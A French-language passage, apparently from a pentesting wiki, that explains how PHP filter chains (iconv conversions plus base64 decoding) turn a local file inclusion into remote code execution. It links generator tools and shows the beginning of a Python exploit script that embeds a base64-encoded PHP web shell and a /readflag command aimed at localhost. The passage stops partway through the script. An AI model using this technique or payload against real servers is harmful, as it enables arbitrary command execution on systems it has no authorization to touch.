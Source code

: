 L'objectif du script est de **générer une chaîne Base64** au **début** du fichier qui sera **finalement décodée** fournissant la charge utile souhaitée qui sera **interprétée par `include`**.

Les bases pour faire cela sont :

* `convert.iconv.UTF8.CSISO2022KR` ajoutera toujours `\x1b$)C` au début de la chaîne
* `convert.base64-decode` est extrêmement tolérant, il ignorera essentiellement tous les caractères qui ne sont pas valides en base64. Il pose quelques problèmes s'il trouve des "=" inattendus, mais ceux-ci peuvent être supprimés avec le filtre `convert.iconv.UTF8.UTF7`.

La boucle pour générer du contenu arbitraire est :

1. ajouter `\x1b$)C` à notre chaîne comme décrit ci-dessus
2. appliquer une chaîne de conversions iconv qui laisse notre base64 initial intacte et convertit la partie que nous venons d'ajouter en une chaîne où le seul caractère base64 valide est la prochaine partie de notre code PHP encodé en base64
3. décoder en base64 et réencoder en base64 la chaîne, ce qui supprimera tout déchet entre les deux
4. Retourner à 1 si le base64 que nous voulons construire n'est pas encore terminé
5. décoder en base64 pour obtenir notre code PHP

{% hint style="warning" %}
**Les inclusions** font généralement des choses comme **ajouter ".php" à la fin** du fichier, ce qui pourrait compliquer l'exploitation de cela car vous auriez besoin de trouver un fichier .php avec un contenu qui ne tue pas l'exploit... ou vous **pourriez simplement utiliser `php://temp` comme ressource** car cela peut **avoir n'importe quoi ajouté dans le nom** (comme +".php") et cela permettra toujours à l'exploit de fonctionner !
{% endhint %}

## Comment ajouter également des suffixes aux données résultantes

[**Ce writeup explique**](https://www.ambionics.io/blog/wrapwrap-php-filters-suffix) comment vous pouvez toujours abuser des filtres PHP pour ajouter des suffixes à la chaîne résultante. C'est génial si vous avez besoin que la sortie ait un format spécifique (comme json ou peut-être ajouter des octets magiques PNG)

## Outils automatiques

* [https://github.com/synacktiv/php\_filter\_chain\_generator](https://github.com/synacktiv/php\_filter\_chain\_generator)
* [**https://github.com/ambionics/wrapwrap**](https://github.com/ambionics/wrapwrap) **(peut ajouter des suffixes)**

## Full script
```python
import requests

url = "http://localhost/index.php"
file_to_use = "php://temp"
command = "/readflag"

#<?=`$_GET[0]`;;?>
base64_payload = "PD89YCRfR0VUWzBdYDs7Pz4"

conversions = {
'R': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2',
'B': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.CP1256.UCS2',
'C': 'convert.iconv.UTF8.CSISO2022KR',
'8': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2',
'9': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB',
'f': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.SHIFTJISX0213',
's': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L3.T.61',
'z': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.NAPLPS',
```